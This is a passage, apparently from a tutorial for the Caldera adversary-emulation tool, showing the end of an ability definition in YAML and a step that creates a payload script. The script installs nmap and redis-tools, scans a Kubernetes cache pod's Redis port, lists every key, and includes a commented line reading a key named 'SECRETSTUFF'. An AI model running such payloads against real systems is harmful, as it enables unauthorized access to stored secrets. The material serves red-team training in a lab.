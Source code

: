             parsers: []
            cleanup: []
            variations: []
            additional_info: {}
        requirements: []
        privilege: ''
        repeatable: false
        buckets:
        - command-and-control
        additional_info: {}
        access: {}
        singleton: false
        plugin: ''
        delete_payload: true
        id: 7d9fe48e-7fe2-49ed-8f59-5a6a3015b66b
    ```

3. Create a new payload file:
    ```bash
    nano ~/caldera/data/payloads/test.sh
    ```

    Add the following content to the file:
    ```bash
    #!/bin/bash

    apt update -y
    apt install nmap redis-tools -y

    echo '[+] Starting'
    nmap -Pn -sV <CACHE_STORE_POD_IP> -p 6379
    redis-cli -h <CACHE_STORE_POD_IP> keys '*'
    echo '[+] Complete with module'
    # redis-cli -h <CACHE_STORE_POD_IP> get 'SECRETSTUFF'
    ```

Replace `<CACHE_STORE_POD_IP>` with the IP address obtained from the previous Kubernetes command.
